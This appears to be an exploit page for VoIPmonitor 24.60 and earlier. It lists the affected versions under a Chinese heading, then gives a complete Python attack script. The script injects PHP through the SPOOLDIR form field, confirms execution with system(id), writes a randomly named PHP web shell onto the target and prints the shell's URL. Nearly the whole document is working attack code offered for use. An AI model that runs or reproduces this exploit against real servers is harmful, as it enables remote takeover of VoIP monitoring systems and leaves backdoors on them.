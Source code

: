 影響版本
--------

VoIPmonitor 24.60及更低版本

EXP
---

    import argparse
    from sys import argv,exit
    import time
    import random
    import string

    try:
        import requests
    except ImportError:
        print("pip3 install requests ")

    print("""
    ###############################################
    #              VOIP Monitor RCE               #
    ###############################################
    """)

    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Connection": "close"}


    def get_target(args):
        hostname = args.host
        path = args.path
        if path:
            return f"http://{hostname}/{path}/index.php"
        else:
            return f"http://{hostname}/index.php"

    def set_tmp(args):
        global headers
        target = get_target(args)
        n_data = {"SPOOLDIR": "/tmp", "recheck": "annen"}
        set_totmp = requests.post(target, n_data, headers=headers)
        print(f"[*] set /tmp {set_totmp}")


    def checkVulnerability(args):
        global headers
        target = get_target(args)
        print(f"[+] Attacking {target}")
        testcmd = {"SPOOLDIR": "test\".system(id).\"", "recheck": "annen"}
        response_text = b"uid="
        testcmd_req = requests.post(target, testcmd, verify=False, headers=headers)
        if response_text in testcmd_req.content:
            print("[*] host is vulnerable")
        else:
            print("[-] host is not vulnerable")
            exit()


    def uploadshell(args):
        global headers
        hostname = args.host
        path = args.path
        shell_path = ""
        shellfilename = str ( ''.join(random.choice(string.ascii_lowercase) for i in range(10)) )
        target = get_target(args)
        rce_payload = {"SPOOLDIR": f"/tmp\".file_put_contents('{shellfilename}.php','<?php echo system($_GET[\"a\"]);').\"", "recheck": "annen"}
        rce_req = requests.post(target, headers=headers, data=rce_payload)
        print(f"[*] uploading shell {rce_req.status_code}")
        if path:
            shell_path = f"http://{hostname}/{path}/{shellfilename}.php"
        else:
            shell_path = f"http://{hostname}/{shellfilename}.php"
        shell_check = requests.get(shell_path, headers=headers, params={'a':'id'})
        print(f"[*] RCE Check : {shell_check.text}")
        print(f"[*] Your Shell at {shell_path}")


    def main():
        parser = argparse.ArgumentParser(description='VoIP Monitor all versions command execution')
        parser.add_argument('-t','--host',help='Host', type=str)
        parser.add_argument('-b', '--path',help='Path of the VoIP Monitor', type=str)
        args = parser.parse_args()
        set_tmp(args)
        checkVulnerability(args)
        set_tmp(args)
        uploadshell(args)
        set_tmp(args)



    if __name__ == "__main__":
        main()